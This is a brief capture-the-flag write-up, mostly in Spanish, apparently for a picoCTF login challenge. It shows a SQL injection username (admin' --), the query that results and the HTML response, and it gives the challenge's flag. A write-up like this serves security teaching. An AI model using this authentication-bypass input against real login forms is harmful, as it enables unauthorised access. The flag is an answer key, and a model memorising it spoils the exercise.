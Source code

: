 
## Descripción :
	Can you login to this website?Try to login [here](http://saturn.picoctf.net:61806/).
## Solución :
usando en el loggin la inyección admin' -- e inspeccionar el  código encontramos la flag 
```
|   |   |
|---|---|
||<pre>username: admin&#039; --|
||password:|
||SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; --&#039; AND password=&#039;&#039;|
||</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}</p>|
```

	picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}
